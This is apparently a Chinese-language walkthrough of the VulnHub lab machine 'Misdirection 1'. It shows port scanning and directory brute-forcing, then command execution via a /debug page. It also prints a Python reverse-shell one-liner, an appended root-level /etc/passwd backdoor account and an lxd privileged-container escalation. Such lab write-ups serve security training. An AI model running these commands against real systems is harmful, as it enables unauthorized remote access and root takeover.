





# Misdirection 1

> https://download.vulnhub.com/misdirection/Misdirection.zip

靶场IP：`192.168.32.211`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.211                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 04:28 EDT
Nmap scan report for 192.168.32.211
Host is up (0.00075s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 00:0C:29:7C:A6:14 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds

```

访问80端口



访问8080端口



爆破目录

```
┌──(root💀kali)-[/tmp]
└─# dirb http://192.168.32.211:8080/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Sep  7 04:34:46 2022
URL_BASE: http://192.168.32.211:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.211:8080/ ----
==> DIRECTORY: http://192.168.32.211:8080/css/                                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.211:8080/debug/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.211:8080/development/                                                                                                                                                                                      
==> DIRECTORY: http://192.168.32.211:8080/help/                                                                                                                                                                                             
==> DIRECTORY: http://192.168.32.211:8080/images/                                                                                                                                                                                           
+ http://192.168.32.211:8080/index.html (CODE:200|SIZE:10918)                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.211:8080/js/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.211:8080/manual/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.211:8080/scripts/                                                                                                                                                                                          
+ http://192.168.32.211:8080/server-status (CODE:403|SIZE:304)                                                                                                                                                                              
==> DIRECTORY: http://192.168.32.211:8080/shell/                                                                                                                                                                                            
==> DIRECTORY: http://192.168.32.211:8080/wordpress/  
```

访问`/debug`目录，可以执行命令



建立反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.130",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



查看sudo列表

```
www-data@misdirection:/tmp$ sudo -l                 
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
www-data@misdirection:/tmp$ sudo -u brexit /bin/bash
sudo -u brexit /bin/bash

```

修改`/etc/passwd`，新增用户

```
brexit@misdirection:/tmp$ ls -al /etc/passwd
ls -al /etc/passwd
-rwxrwxr-- 1 root brexit 1617 Jun  1  2019 /etc/passwd
```

```
openssl passwd -1 -salt hack pass123
echo 'hack:$1$hack$22.CgYt2uMolqeatCk9ih/:0:0:root:/root:/bin/bash' >>/etc/passwd
```



lxd提权

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
./build-alpine  
python3 -m http.server 80
```


```
lxd init
```


导入镜像

```
brexit@misdirection:/tmp$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
<e-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
To start your first container, try: lxc launch ubuntu:18.04
```

提权

```
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc start ignite
lxc exec ignite /bin/sh
```


